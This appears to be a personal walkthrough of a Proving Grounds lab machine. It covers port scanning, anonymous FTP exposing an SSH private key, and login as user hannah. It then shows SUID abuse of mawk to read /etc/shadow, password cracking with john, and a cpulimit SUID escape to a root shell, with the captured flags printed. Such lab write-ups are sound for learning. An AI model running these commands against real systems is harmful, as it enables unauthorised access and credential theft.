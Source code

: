 nmap

| Port      | State | Service | Version       |
| --------- | ----- | ------- | ------------- |
| 21/tcp    | open  | ftp     | vsftpd 3.0.3  |
| 61000/tcp | open  | ssh     | OpenSSH 7.9p1 |

Initially i only get back the ftp port, byt after running nmap on all ports we get get back that ssh on p 61000. 

The ftp port has anon login so i'll take a look at that first. 

```php
ls -la
```

```php
drwxr-xr-x    3 0        115          4096 Aug 06  2020 .
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .hannah
```

I cd into .hannah

```php
-rwxr-xr-x    1 0        0            1823 Aug 06  2020 id_rsa
```

I try the ssh id_rsa but get asked for a password. Maybe i need to brute-force.

```php
kali@192.168.190.130
```

I forgot to set the permissions of the file

```php
chmod 600 id_rsa
```

```php
ssh -i id_rsa hannah@$IP -p 61000
```

I  can now login as the user hannah.

I get the first flag from local.txt
`68ecb2a32d693aa0ee9feab360333749`

**Linpeas**

SUID
usr/bin/cpulimit
/usr/bin/mawk

https://gtfobins.github.io/gtfobins/mawk/

```php
sudo mawk 'BEGIN {system("/bin/sh")}'
```

- sudo is not installed

Unfortunately, my time ran out on proving grounds, so i'll have to wait to finish it off. 

```php
LFILE=file_to_read
```

```php
./mawk '//' "$LFILE"
```

- /etc/shadow

![[Pasted image 20240915075440.png]]

```php
unshadow passwd.txt shad.txt > unshad.txt
```

```php
john --wordlist=/usr/share/wordlists/rockyou.txt unshad.txt
```

```php
john <hash file> --show
```

Waiting for john to crack the password i tried the other attack vector: `usr/bin/cpulimit`

Root exploit 
https://gtfobins.github.io/gtfobins/cpulimit/

```php
./cpulimit -l 100 -f -- /bin/sh -p
```

![[Pasted image 20240915075053.png]]

Flag
`c1b56f4aa40fb9117e60cead401680e5`

---

